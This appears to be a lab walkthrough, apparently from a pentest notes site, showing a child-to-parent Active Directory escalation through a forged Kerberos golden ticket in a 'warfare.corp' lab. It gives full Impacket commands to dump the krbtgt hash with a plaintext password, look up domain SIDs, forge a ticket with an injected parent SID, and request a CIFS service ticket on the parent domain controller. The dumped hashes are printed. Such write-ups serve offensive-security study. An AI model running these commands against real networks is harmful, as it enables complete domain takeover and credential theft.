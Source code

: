 

### Craft a Golden Ticket

#### Get KRBTGT Hash

We are local administrator in the Child Domain Controller. Let's extract the
&#x20;hash of “**krbtgt**” account using `impacket-secretsdump` tool. We will forge
&#x20;a golden ticket to compromise the Parent Domain Controller.

{% code overflow="wrap" %}
```bash
impacket-secretdump -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

# Results:

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900

krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
```
{% endcode %}

#### Get SID of the Child and Parent DC

Using `impacket-lookupsid` tool we will extract DC SIDs

```bash
impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp

impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp
```

#### Forge the ticket

Using `impacket-ticketer` tool we will craft the golden ticket.

{% code overflow="wrap" %}
```bash
impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid $CHILD_DC_SID -groups 516 -user-id 1106 -extra-sid $PARENT_DC_SID,S-1-5-9 'corpmngr'
```
{% endcode %}

Now we have the `.ccache` file. Let's set it to the env variable

```bash
export KRB5CCNAME=corpmngr.ccache
```

<details><summary>Mimikatz Ticket craft</summary></details>

### Get Service Ticket with .ccache file

Now, using impacket-getST we can request Service Ticket using ccache file.

{% code overflow="wrap" %}
```bash
impacket-getST -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/corpmngr -debug
```
{% endcode %}
